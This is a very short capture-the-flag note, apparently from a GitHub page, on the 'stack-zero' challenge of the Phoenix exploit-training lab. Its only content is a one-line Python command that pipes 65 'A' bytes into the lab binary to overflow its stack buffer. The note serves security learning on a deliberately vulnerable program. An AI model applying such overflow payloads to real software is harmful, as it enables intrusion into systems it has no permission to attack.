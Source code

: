 ### CTF Notes

### Challenge
stack-zero from phoenix

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*65)" | ./stack-zero
```
